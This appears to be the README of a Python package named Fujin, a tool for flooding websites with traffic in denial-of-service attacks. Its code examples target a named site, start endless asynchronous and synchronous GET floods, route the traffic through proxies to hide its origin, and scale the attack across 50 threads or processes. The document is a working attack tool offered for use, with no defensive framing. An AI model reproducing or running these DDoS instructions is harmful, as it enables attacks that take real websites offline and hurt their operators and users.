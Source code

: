 # Documentation
Happy learnings

## Install
```
pip install Fujin
```

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## What's faster sync or async
asnyc mate

